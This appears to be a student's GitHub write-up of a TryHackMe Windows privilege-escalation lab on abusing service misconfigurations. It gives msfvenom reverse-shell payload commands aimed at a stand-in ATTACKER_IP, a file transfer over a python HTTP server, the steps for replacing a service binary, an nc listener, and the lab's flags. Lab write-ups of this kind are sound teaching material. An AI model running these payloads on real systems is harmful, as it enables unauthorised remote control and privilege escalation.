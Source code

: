 **TASK 5: Abusing Service Misconfigurations**

# Windows Services 

Windows services are managed by Service Control Manager (SCM) The task of SCM is that it oversees the status and cofiguration of services.Each
service has a linked executable that the SCM runs when the service starts. Not all executables can function as services,
as they need special functions to communicate with the SCM. The user account under which a service operates is also specified by each service.

For understanding it better lets run this command:

    sc qc apphostsvc


Two things to notice after running the scans are

- BINARY_PATH_NAME
- SERVICE_START_NAME
  
![unpriv](https://github.com/Anirudh-Saxena/Windows-Privilege-Escalation-WriteUP/assets/73027020/d5955087-75d3-4462-b4d3-e5a34177a819)

# Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

To understand the woking lets run the following commands :

    sc qc WindowsScheduler

![Screenshot 2023-10-23 232127](https://github.com/Anirudh-Saxena/Windows-Privilege-Escalation-WriteUP/assets/73027020/c050b461-3342-4da2-88d5-932dfd449a11)


Now we can see that `C:\PROGRA~2\SYSTEM~1\WService.exe` is the vuln that we are looking for after this lets see who all can access this for doing so we can simply copy and paste the name of the file 
and add prefix as `icacls`.


We can see that anyone can modify this file so now lets try to gain reverse shell access using `metasploit`


      msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe


After creating the file open the python server :

      python -m http.server

Now tranfer the file to the target machine by using the **Powershell cmd**


      wget http://<ip>:8000/rev-svc.exe -O rev-svc.exe

**Make sure to cross check the file name**


After going through each and everystep this should what your screen look like :0

![Screenshot 2023-10-23 235127](https://github.com/Anirudh-Saxena/Windows-Privilege-Escalation-WriteUP/assets/73027020/8b94aaa0-f90f-4f81-ae86-3dbba49df7d2)

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, 
we'll want to grant full permissions to the Everyone group as well.

- `cd C:\PROGRA~2\SYSTEM~1\`
- `move WService.exe WService.exe.bkp`
- `move C:\Users\thm-unpriv\rev-svc.exe WService.exe`
- `move C:\Users\thm-unpriv\rev-svc.exe WService.exe`

Now we will start reverse listener :

    nc -lnvp 4445

And then we will restart the services on the traget machine and we will be able to gain reverse shell.

**Q. Get the flag on svcusr1's desktop.**

Ans: The command will be:

    type C:\Users\svcusr1\Desktop\flag.txt

**THM{AT_YOUR_SERVICE}**
![Screenshot 2023-10-24 000100](https://github.com/Anirudh-Saxena/Windows-Privilege-Escalation-WriteUP/assets/73027020/bbfdba0d-cc01-496e-8fda-dc75e0911ea3)

**Dont close the http server cause we will be using that again..**

# Unquoted Service Paths

When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.

Read the task description from THM website and follow all the steps..


**Q. Get the flag on svcusr2's desktop.**


For this we will use the same proccess that we did above we will create a file using `msfvenom` 

      msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
  
and then we will move this file in the target machine and then we will check for the flag.


The whole proccess will look something like this

![Screenshot 2023-10-24 003049](https://github.com/Anirudh-Saxena/Windows-Privilege-Escalation-WriteUP/assets/73027020/54000530-ae13-4a6f-9e75-80b7b26bf369)


**Q. Get the flag on the Administrator's desktop.**

Create the payload using 

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=4447 -f exe-service -o rev-svc3.exe

Then follow the same proccess send the file to the target machine using the python http server and then and open a listener in your machine..

Then after getting a successful reverse connection use this command to get the flag:


    type C:\Users\Administrator\Desktop\flag.txt

![image](https://github.com/Anirudh-Saxena/Windows-Privilege-Escalation-WriteUP/assets/73027020/4e296f63-8416-4944-b76d-a2c2c7f2d1c5)




